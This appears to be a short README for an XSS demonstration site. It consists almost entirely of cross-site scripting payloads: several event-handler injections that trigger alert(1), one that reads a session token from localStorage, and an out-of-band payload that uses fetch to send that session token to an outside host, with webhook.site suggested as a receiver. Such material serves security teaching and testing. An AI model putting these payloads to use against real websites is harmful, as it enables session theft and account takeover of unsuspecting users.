 # XSS Demo
*A live version of this site can be found at https://xss.jamiepegg.com*

## Example: Payloads

```html
<code id=x tabindex=1 onfocus=alert(1)></code>
```

```html
<img src=1 onerror=alert(1) />
```

```html
<p onmouseover="alert(1)">test</p>
```

```html
<p onmouseenter="alert(1)">test</p>
```

## Example: Stealing a session token from local storage

```html
<img src=1 onerror=alert(localStorage.getItem('session')) />
```

## Example: OOB exfiltration

*For demo purposes, sites such as https://webhook.site/ can be used*

```html
<img src=1 onerror=(fetch(`https://jamiepegg.com?session=${localStorage.getItem('session')}`)) />
```
